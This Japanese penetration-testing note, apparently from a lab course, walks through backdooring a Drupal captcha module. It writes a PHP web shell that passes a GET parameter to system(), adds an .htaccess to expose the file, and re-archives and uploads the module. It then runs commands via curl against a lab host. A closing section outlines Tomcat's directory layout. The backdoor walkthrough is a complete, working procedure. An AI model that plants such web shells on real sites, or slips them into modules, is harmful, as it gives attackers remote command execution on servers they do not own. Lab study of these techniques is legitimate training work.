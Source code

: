 
### バックドア付きモジュールのアップロード
アーカイブのダウンロードと展開
```shell-session
wget --no-check-certificate  https://ftp.drupal.org/files/projects/captcha-8.x-1.2.tar.gz
tar xvf captcha-8.x-1.2.tar.gz
```

PHPウェブシェルの作成
```php
<?php
system($_GET[fe8edbabc5c5c9b7b764504cd22b17af]);
?>
```

.htaccessファイルの作成
- フォルダへのアクセスを可能にするための .htaccess ファイルを作成する
- Drupalはデフォルトで /modules フォルダへの直接アクセスを拒否しているため、これが必要
```html
<IfModule mod_rewrite.c>
RewriteEngine On
RewriteBase /
</IfModule>
```

ファイルをモジュールフォルダに配置し、再アーカイブ
- 上記で作成した shell.php と .htaccess を captcha フォルダに移動させ、再度アーカイブする
```shell-session
mv shell.php .htaccess captcha
tar cvf captcha.tar.gz captcha/
```

Drupalでモジュールをアップロード
- 管理者アクセスがある場合、サイドバーの「管理」→「拡張」へ進む
- 次に「新しいモジュールをインストール」ボタン（+ Install new module）をクリックし、モジュールインストールページ（例：http://drupal.inlanefreight.local/admin/modules/install）にアクセスする
- 先ほど作成した**バックドア付きCaptchaアーカイブを選択して「インストール」**をクリックする

コマンドの実行
```shell-session
curl -s drupal.inlanefreight.local/modules/captcha/shell.php?fe8edbabc5c5c9b7b764504cd22b17af=id
```



# Tomcat
- Javaで書かれたアプリケーションをホストするオープンソースのWebサーバー
- Tomcatはもともと「Java Servlets」や「Java Server Pages (JSP)」 を実行するために設計された
- 内部ネットワークペンテストで非常によく出会う存在
- 通常「High Value Targets（高価値ターゲット）」の最上位に表示される
- 内部に存在するTomcatの少なくとも1つは、弱い認証情報やデフォルトの資格情報で構成されている場合がよくある

構成
- bin：Tomcatの起動や実行に必要なスクリプトとバイナリ
- conf：Tomcatの各種設定ファイル（tomcat-users.xml にユーザー情報あり）
- lib：動作に必要なJARファイル
- logs, temp：一時ファイル、ログファイル
- webapps：TomcatのWebルート、ここにアプリケーションが置かれる
- work：ランタイムキャッシュ
